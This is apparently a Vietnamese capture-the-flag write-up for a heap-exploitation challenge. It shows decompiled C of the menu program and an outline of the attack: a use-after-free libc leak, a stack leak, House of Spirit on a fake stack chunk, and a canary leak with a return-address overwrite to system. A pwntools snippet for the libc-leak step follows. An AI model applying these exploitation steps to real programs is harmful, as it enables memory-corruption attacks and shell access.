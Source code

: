 ```c 
        continue;
      case 4:
        if ( s[6] )
        {
          puts("Gift: ");
          printf("%ld\n", v9);
        }
        continue;
      case 5:
        return v13 - __readfsqword(0x28u);
      default:
        continue;
    }
    while ( v8 <= 7 )
    {
      if ( !s[v8] )
      {
        s[v8] = (__int64)malloc(size);
        puts("Content: ");
        read(0, (void *)s[v8], size);
        puts("Content: ");
        printf("%s\n", (const char *)s[v8]);
        goto LABEL_2;
      }
      ++v8;
    }
  }
}
```

## Analysis

- chall cho ta 4 option, 1 là malloc 1 chunk, 2 là free, 3 nhập vào biến buf, 4 là Gift mà author cho là địa chỉ stack
- lợi dụng uaf của unsorted bins, ta leak được libc
- bài này thì khả năng cao ta không thể dbf được vì free((void *)s[v7]), sau khi free xong nó sẽ xóa địa chỉ của chunk ta vừa free trong s[], lúc s[] rỗng thì ta ko thể dbf được
- option 3 cho phép nhập vào buf nhằm trên stack, mà ta cũng leak được stack nhờ option 4 , hmmm lúc này ta nhảy số liền là ta có khả năng free được stack vì ta có thể setup pre size => House of Spirit
- sau khi free được stack ta muốn thì ta hoàn toàn leak được canary và overwrite rip thành system => getshell

## Exploit

- trước tiên ta leak libc trước 
```python
add(0x500, b'a' * 8)
add(0x500, b'b' * 8)
delete(0)
add(0x500, b'a')
# 0x219c61
p.recvuntil('\n')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x219c61
print(hex(libc.address))
```
